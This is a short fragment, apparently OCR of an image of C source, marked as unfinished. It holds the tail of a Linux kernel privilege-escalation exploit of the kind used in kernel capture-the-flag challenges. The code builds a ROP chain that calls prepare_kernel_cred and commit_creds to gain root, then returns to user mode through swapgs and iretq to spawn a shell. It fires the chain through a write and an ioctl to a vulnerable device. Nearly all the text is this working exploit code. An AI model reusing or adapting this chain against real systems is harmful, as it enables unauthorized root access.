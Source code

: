 ```c
	rop_chain[i ++] = 0;
	rop_chain[i ++] = (unsigned long long) prepare_kernel_cred;
	rop_chain[i ++] = mov_rdi_rax_pop_rbx;
	rop_chain[i ++] = 0;
	rop_chain[i ++] = (unsigned long long) commit_creds;

	rop_chain[i ++] = swapgs_popfq;
	rop_chain[i ++] = 0;
	rop_chain[i ++] = iretq;
	rop_chain[i ++] = (unsigned long long)shell;
	rop_chain[i ++] = user_cs;
	rop_chain[i ++] = user_rflags;
	rop_chain[i ++] = user_sp;
	rop_chain[i ++] = user_ss;
	
	write(fd, rop_chain, sizeof(rop_chain));
	ioctl(fd, 0x6677889A, 0xffffffffffff0000|0x100);
}
```

(未完)